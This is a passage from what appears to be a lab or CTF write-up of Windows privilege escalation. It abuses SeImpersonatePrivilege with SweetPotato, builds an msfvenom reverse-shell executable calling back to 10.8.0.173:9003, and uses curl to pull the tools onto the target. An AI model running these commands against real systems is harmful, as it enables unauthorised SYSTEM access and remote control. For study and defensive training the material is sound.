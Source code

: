```
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I've exploited this privilege several times before, and the end result should be no different here. I'll give a short snippet as to how this command works with the service account that we currently have access to.

Service accounts, by default, will have this privilege along with SeAssignPrimaryTokenPrivilege. Having SeImpersonatePrivilege essentially allows our service account to impersonate a user or specified user to perform actions on behalf of that user.

We can impersonate SYSTEM and authenticate to an evil named pipe that we create. We'll then direct this named pipe to a binary to execute, which will run in the context of SYSTEM.

I ran a simple test to see if AV was enabled on this machine, and it seems that it is not.

```
PS C:\windows\system32\inetsrv> "Invoke-Mimikatz"
"Invoke-Mimikatz"
Invoke-Mimikatz
```

In that case, we should be able to use [SweetPotato](https://github.com/CCob/SweetPotato) to generate this authentication coercion from SYSTEM. Had Defender been enabled, I would have used the loader that I had used in Breach to execute this application in memory. You can download a precompiled version of `SweetPotato` through the GitHub repository, or compile the source code with Visual Studio.

We'll then generate a new powershell executable payload with `msfvenom`, as seen below.

```
└─$ msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f exe LHOST=10.8.0.173 LPORT=9003 > daz.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

We can then upload both `SweetPotato` and our `msfvenom` reverse shell to the machine using our Python server. We can then start up our netcat listener on port `9003` as seen from our payload attributes above. (`nc -lvnp 9003`)

```
PS C:\temp> curl http://10.8.0.173:9001/SweetPotato.exe -O SweetPotato.exe
PS C:\temp> curl http://10.8.0.173:9001/daz.exe -O daz.exe
PS C:\temp> ls

Directory: C:\temp

Mode                 LastWriteTime         Length Name                                                 
----                 -------------         ------ ----                                                 
-a----         7/14/2024   6:14 PM           7168 daz.exe                                              
-a----         7/14/2024   6:13 PM         926208 SweetPotato.exe
```
